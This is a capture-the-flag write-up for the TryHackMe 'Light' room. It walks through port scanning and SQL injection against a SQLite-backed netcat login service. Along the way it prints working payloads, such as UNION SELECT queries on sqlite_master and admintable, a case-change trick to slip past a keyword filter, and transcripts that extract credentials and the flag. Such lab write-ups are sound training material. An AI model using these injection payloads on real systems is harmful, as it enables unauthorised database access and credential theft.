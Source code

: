 ```yaml
---
title: "Light"
date: 2025-01-18T09:36:24+01:00
draft: false
hidden: false
tags:
    - ctf
    - writeup
    - tryhackme
summary: ""
---
```


|Revised Date | Author | Comment |
| ----------- | ------ | ------- |
| 19.01.2025  | Roger Johnsen | Article added |

## Introduction

>_I am working on a database application called Light! Would you like to try it out?
If so, the application is running on port 1337. You can connect to it using nc 10.10.199.201 1337
You can use the username smokey in order to get started._
>
>_Note: Please allow the service 2 - 3 minutes to fully start before connecting to it._

Availability: https://tryhackme.com/r/room/lightroom

--- 

## Portscanning

```bash
nmap -sS -Pn -p- 10.10.199.201 -oN scan.txt

# Nmap 7.94SVN scan initiated Sat Jan 18 12:34:04 2025 as: /usr/lib/nmap/nmap --privileged -sS -Pn -p- -oN scan.txt 10.10.199.201
Nmap scan report for 10.10.199.201
Host is up (0.059s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
1337/tcp open  waste
```

## Enumerating service

```bash
nc 10.10.199.201 1337

Welcome to the Light database!
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
Please enter your username: '
Error: unrecognized token: "''' LIMIT 30"
Please enter your username: --
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)
```
Initial prodding of the login prompt reveals the following:  

- If a username exists, the system returns and displays the associated password.  
- The prompt suggests a database is involved, making SQL injection the most likely vulnerability.  
- Inserting a single quotation mark (`'`) results in an SQL error.  
- Input filtering appears to be in place.  

```bash
nc 10.10.199.201 1337
Welcome to the Light database!

Please enter your username: 
Password: tF8tj2o94WE4LKC
Please enter your username: ' or username like 'a%
Password: tF8tj2o94WE4LKC
Please enter your username: ' or username like 'x%
Username not found.
Please enter your username:
```

Further prodding using the following payloads:

| Payload | Result | 
| ------- | ------ |
| ```' or '1'='1``` | Returns a different password than for "smokey" |
| ```' or username like 'a%``` | Returns the same password as above mentioned "OR" statement |
| ```' or username like 'x%``` | No user founds. Verification that I have guessed the correct column and that there are no users starting with "x" | 

#### The hints

The room's description states, *"I am working on a database application called Light."* The room itself is named *"Light,"* and the URL for the room is *"/lightroom."* Seeing these in combination, it seems likely that we are dealing with SQLite - phonetically, it makes sense. Therefore, I will base my investigation on this assumption moving forward.  

## Enumerating database

### Tables

For standard querying, listing tables in SQLite can be accomplished with the following query, which we will exploit shortly:

```sql
SELECT name FROM sqlite_master WHERE type = 'table' ORDER BY name;
```

When applied to the application's input, we get something like this:

```sql
x' Union SELECT name FROM sqlite_master WHERE type='table
```

Putting this into practice:

```bash
nc 10.10.147.110 1337

Welcome to the Light database!
Please enter your username: x' UNION SELECT name FROM sqlite_master WHERE type='table
Ahh there is a word in there I don't like :(
Please enter your username: 
```

While debugging, it seems the backend does not accept the "SELECT" keyword, even in lowercase. However, this works:  

```bash
nc 10.10.147.110 1337

Welcome to the Light database!
Please enter your username: x' Union Select name FROM sqlite_master WHERE type='table
Password: admintable
Please enter your username: 
```

### Users

We now know the table name, "admintable." Let's see if we can retrieve its contents! We'll use the same logic as above:

```sql
x' Union Select username FROM admintable WHERE username like '%
```

Putting this into practice:

```bash
nc 10.10.147.110 1337

Welcome to the Light database!
Please enter your username: x' Union Select username FROM admintable WHERE username like '%
Password: T*************
Please enter your username: T*************
Username not found.
Please enter your username:
```

Although we can extract the username, we cannot retrieve the password by simply entering the username at the prompt. However, we must use SQL injection once again:

```sql
x' Union Select password FROM admintable WHERE username like 'T%
```

Putting this into practice:

```bash
nc 10.10.147.110 1337

Welcome to the Light database!
Please enter your username: x' Union Select password FROM admintable WHERE username like 'T%
Password: m*******************
Please enter your username: 
```

At this point, I thought I could simply SSH into the machine and retrieve the flag. Unfortunately, the credentials didn’t work. So, I decided to revisit probing the database.

### Flag

It appears that there is only one table in the database. Perhaps there is more content I'm not aware of? I’m trying this route without looking at the username I recently found:

```sql
x' Union Select password FROM admintable WHERE username not like 'T%
```

Putting this into practice:

```bash
nc 10.10.147.110 1337         
Welcome to the Light database!
Please enter your username: x' Union Select password FROM admintable WHERE username not like 'T%
Password: THM{******************************}
Please enter your username:
```

And there’s the flag.